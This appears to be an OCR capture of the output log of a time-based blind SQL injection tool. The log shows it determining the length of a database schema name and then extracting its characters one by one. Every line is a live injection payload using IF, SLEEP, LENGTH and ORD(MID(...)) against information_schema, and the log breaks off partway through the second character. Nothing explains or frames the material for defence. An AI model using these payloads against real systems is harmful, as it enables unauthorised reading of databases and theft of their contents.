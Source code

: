 Value: information_schema



Determinating number of characters in the field: SCHEMA_NAME

{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1)=1,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1)=2,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1)=3,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1)=4,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1)=5,SLEEP(0.155797244898),SLEEP(0))}

Field length: 5


Determinating values of field: SCHEMA_NAME

{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=109,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=124,SLEEP(0.155797244898),SLEEP(0))}